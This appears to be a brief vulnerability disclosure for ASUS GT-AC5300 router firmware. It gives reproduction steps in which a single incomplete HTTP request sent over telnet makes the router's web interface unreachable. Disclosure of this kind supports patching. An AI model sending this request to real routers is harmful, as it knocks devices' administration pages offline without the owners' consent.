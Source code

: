 # ASUS GT-AC5300 Denial of Service #

**vender** ：ASUS

**Firmware version**: <=3.0.0.4.384_32738

**Exploit Author**: bigbear@galaxylab.org

**Vendor Homepage**: https://www.asus.com

**Hardware Link**:https://www.asus.com/Networking/ROG-Rapture-GT-AC5300/HelpDesk_BIOS/

## Vul detail ##

Reproduction Steps:
1. telnet router.asus.com 80
1. send "GET / HTTP/1.1\r\n"
1. Now the page http://router.asus.com/ cannot be accessed
1. you can use burp suite to reproduction ,just send http request like this:
![](asus_dos1.png)
